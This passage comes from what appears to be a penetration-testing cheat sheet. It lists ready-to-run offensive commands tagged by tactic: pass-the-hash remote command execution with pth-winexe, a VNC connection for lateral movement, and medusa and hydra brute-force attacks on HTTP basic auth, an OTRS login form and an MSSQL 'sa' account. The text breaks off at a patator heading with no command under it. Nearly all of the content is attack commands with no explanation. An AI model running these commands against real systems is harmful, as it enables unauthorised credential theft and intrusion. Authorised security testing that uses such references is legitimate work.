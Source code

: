 # run command on target-ip and auth via ntlm-hash
- `pth-winexe -U ntlm-hash //target-ip cmd`

---

# vinagre
- service: vnc
- tactics: lateral_movement

# vnc connect
- `vinagre`

---

# medusa
- service: http
- service: basic_auth
- tactics: credential_access

## bruteforce basic_auth
- `medusa -h target-ip -U ../creds/usernames.txt -P ../creds/passwords.txt -M http -m DIR:/printers -T 10`

---

# hydra
- service: http
- service: http_post
- service: sql
- tactics: credential_access

## bruteforce http_post with example post-data
- `hydra -l root@localhost -P /usr/share/wordlists/rockyou.txt target-ip http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-60&User=^USER^&Password=^PASS^:
Login failed!"`

## bruteforce mssql
- `hydra -l sa -P ../creds/pass.txt target-ip -s target-port mssql`

---

# patator
- service: ssh
- tactics: credential_access

